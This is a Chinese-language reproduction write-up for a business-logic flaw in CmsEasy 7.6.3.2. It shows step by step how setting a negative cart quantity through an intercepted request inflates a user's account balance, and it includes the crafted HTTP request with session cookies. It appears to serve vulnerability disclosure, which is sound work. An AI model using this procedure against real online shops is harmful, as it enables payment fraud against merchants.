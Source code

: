 CmsEasy 7.6.3.2\_20200422 逻辑漏洞
==================================

一、漏洞简介
------------

二、漏洞影响
------------

CmsEasy 7.6.3.2

三、复现过程
------------

-   1.登录任意账号    图片 1.png

-   2.点击任意产品    图片 2.png

-   3.点开任意一个产品，前提是有余量    图片 3.png

-   4.输入任意正常数量，burp开启抓包，点击添加到购物车    图片 4.png

-   5.将抓到的包中的最后一个数字改为负数    图片 5.png    图片 6.png    然后放包

```{=html}
<!-- -->
```
    GET /index.php?case=archive&act=doorders&aid=527&datatype=&thisnum=-100 HTTP/1.1
    Host: www.0-sec.org
    Accept: */*
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0
    Referer: http://localhost/index.php?case=archive&act=show&aid=527
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: PHPSESSID=5j671r8cg9kfppbkpl7i0n1te0; loginfalse=0; login_username=admin; login_password=787cc8f99d30dc9cbeeadd77f99efb84; ce_orders_cookie=TL%2BA8RODL9PeNwoN
    Connection: close

-   6.此时可以看到购物车中为负数    图片 7.png

-   7.查看个人中心中的余额，为5600    图片 8.png

-   8.点击购物车    图片 9.png

-   9.点击下图内容    图片 10.png

-   10.填写完成之后，点击在线支付    图片 11.png

-   11.选择余额支付，点击购买    图片 12.png

-   12.购买成功    图片 13.png

-   13.回到个人中心，可以看到余额的变化    图片 14.png
